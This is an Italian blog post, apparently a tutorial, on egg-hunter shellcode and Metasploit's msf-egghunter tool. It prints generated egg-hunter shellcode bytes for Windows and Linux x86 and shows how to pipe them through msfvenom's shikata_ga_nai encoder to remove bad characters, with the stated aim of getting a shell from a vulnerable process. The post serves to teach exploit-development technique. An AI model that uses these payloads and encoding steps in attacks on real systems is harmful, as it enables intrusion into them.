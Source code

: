 ```yaml
---
layout: post
title: "Diamo un'occhiata a msf-egghunter"
author: thesp0nge
featured: false
category: [post]
tags: [egghunter, exploit, offensive, payload, assembly]
image:
  feature: eggs.jpg
comments: true
share: true
---
```


Lo scorso febbraio, su [The Armored
Code](https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/) ho scritto
un post che parlava di msf-egghunter, lo strumento distribuito insieme a
Metasploit per scrivere un egg hunter.

Lo scorso anno, per la certificazione SLAE, mi [ero già
imbattuto](https://codiceinsicuro.it/slae/assignment-3-an-egg-hunter-journey/)
in questa tecnica che ho trovato immediatamente affascinante.

Stiamo parlando di sviluppo di un exploit. Avete, in qualche modo, forzato la
modifica del flusso di esecuzione del vostro programma vulnerabile (attraverso
la sovrascrittura dell'EIP o attraverso la Structure Exception Handler, nel
caso il target sia Windows) e siete nel punto dove dovete piazzare il vostro
shellcode. A questo punto sorge un problema, il buffer nel quale siete è troppo
piccolo per contenere una bind shell, una reverse shell o qualsiasi cosa utile
a darvi un prompt.

Che fare? Semplice; andate a studiare il paper di Matt Miller, ["Safetly
Searching Process Virtual Address
Space"](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) e poi
tornate qui.

Fatto? Molto bene. L'idea alla base di questa tecnica è quella di piazzare il
nostro shellcode in un punto qualsiasi della memoria del processo da attaccare.
Lo shellcode avrà in testa una sequenza di 4 byte, ripetuta 2 volte per evitare
falsi positivi, che sarà interpretata come un indicatore di inizio per il
nostro payload. Il codice dell'egg-hunter, che andremo a piazzare nel piccolo
buffer di cui parlavamo prima, avrà il compito di cercare nella memoria del
processo vittima, i 4 byte di inizio payload e, una volta trovati, far saltare
l'esecuzione a quel punto in memoria.

Per la SLAE
[scrissi](https://github.com/thesp0nge/SLAE/tree/master/Assignment_3) un
semplice codice assembler che realizzava un egg-hunter. Oggi vediamo uno
strumento messo a disposizione dal framework Metasploit:
[msf-egghunter](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/egghunter.rb).

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -h
Usage: msf-egghunter [options]
Example: msf-egghunter -f python -e W00T

Specific options:
    -f, --format <String>            See --list-formats for a list of supported output formats
    -b, --badchars <String>          (Optional) Bad characters to avoid for the egg
    -e, --egg <String>               The egg (Please give 4 bytes)
    -p, --platform <String>          (Optional) Platform
        --startreg <String>          (Optional) The starting register
        --forward                    (Optional) To search forward
        --depreg <String>            (Optional) The DEP register
        --depdest <String>           (Optional) The DEP destination
        --depsize <Integer>          (Optional) The DEP size
        --depmethod <String>         (Optional) The DEP method to use (virtualprotect/virtualalloc/copy/copy_size)
    -a, --arch <String>              (Optional) Architecture
        --list-formats               List all supported output formats
    -v, --var-name <name>            (Optional) Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message

{%endhighlight%}

## Semplice utilizzo del tool

L'utilizzo base di msf-egghunter è quello di scegliere la piattaforma (windows
o linux) e l'architettura (a 32 o 64 bit). Unico parametro mandatorio sarà
l'EGG da utilizzare per marcare l'inizio del nostro payload; useremo la stringa
'BEEF' allo scopo.

{% highlight sh %}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p windows -a x86 -f python -e BEEF
buf =  ""
buf += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
buf += "\x05\x5a\x74\xef\xb8\x42\x45\x45\x46\x89\xd7\xaf\x75"
buf += "\xea\xaf\x75\xe7\xff\xe7"

[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -f python -e BEEF
buf =  ""
buf += "\xfc\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c"
buf += "\xf2\x74\xf1\xb8\x42\x45\x45\x46\x89\xcf\xaf\x75\xec"
buf += "\xaf\x75\xe9\xff\xe7"
{% endhighlight %}

## Evitare i bad characters

Quando stiamo scrivendo un exploit, siamo nella condizione di non poter
utilizzare alcuni caratteri nel nostro payload. Magari a causa di una routine
di filtro, alcuni codici ascii utilizzati nel nostro payload potrebbero non
essere gestiti correttamente dal programma vittima e non copiati nelle proprie
zone di memoria.

Vanno quindi rimossi e sembra che il parametro '-b' sia lì proprio per quello
peccato che, almeno nella versione di Metasploit 5.0.6-dev, non funzioni.
Supponiamo io debba creare uno shellcode per Linux, architettura a 32 bit e
voglia usare sempre 'BEEF' come egg.

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -f python -e BEEF -b '\x66'
buf =  ""
buf += "\xfc\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c"
buf += "\xf2\x74\xf1\xb8\x42\x45\x45\x46\x89\xcf\xaf\x75\xec"
buf += "\xaf\x75\xe9\xff\xe7"
{%endhighlight%}

Come si può vedere, il nostro carattere '\x66' è ancora lì al suo posto.
Quindi? Quindi chiedo aiuto a msfvenom, strumento principe per la generazione
dei payload e che è in grado di fare delle trasformazioni ad un shellcode
arbitrario passato attraverso lo standard input. 

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -e BEEF -f raw | msfvenom -p - --platform linux -a x86 -b '\x66' -f python

Attempting to read payload from STDIN...
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 58 (iteration=0)
x86/shikata_ga_nai chosen with final size 58
Payload size: 58 bytes
Final size of python file: 292 bytes
buf =  ""
buf += "\xd9\xe9\xbd\x34\x49\xad\xb8\xd9\x74\x24\xf4\x5e\x29"
buf += "\xc9\xb1\x08\x83\xc6\x04\x31\x6e\x16\x03\x6e\x16\xe2"
buf += "\xc1\xb5\xcb\x39\xe0\xb9\x1b\x7b\x98\x06\x7c\xb6\xdc"
buf += "\xb5\x8e\x3c\x2d\x7d\x2c\xf8\x88\x38\x38\xcd\xbd\xb0"
buf += "\xd6\x7d\xb4\xd3\xd8\x65"

{%endhighlight%}

Ed ecco qui, il carattere '\x66' è sparito. Quello che vi consiglio è di usare
msfvenom per tutto quello che riguarda l'encoding e la trasformazione del
vostro egg-hunter in pipe ad msf-egghunter.

## Il cuore

Il cuore del codice di msf-egghunter è nella libreria rex-exploit sviluppata da Rapid7, il cui codice è disponibile [qui su GitHub](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/egghunter.rb).

Dal codice possiamo leggere nei commenti i miglioramenti fatti rispetto al
lavoro di Miller. Interessante il codice per [disabilitare il
DEP]((https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/)
scritto da corelandc0d3r.

## Off by one

Per avere un esempio pratico, vi do il link di questo exploit che ho scritto
per [Base64 Decoder 1.1.2](https://www.exploit-db.com/exploits/46625) mostra
msf-egghunter in azione. A me questa tecnica piace un sacco, è divertente
pensare al processo vittima che cerca in memoria il codice per bucarsi, lo
esegue e ti restituisce una shell.

Enjoy it!
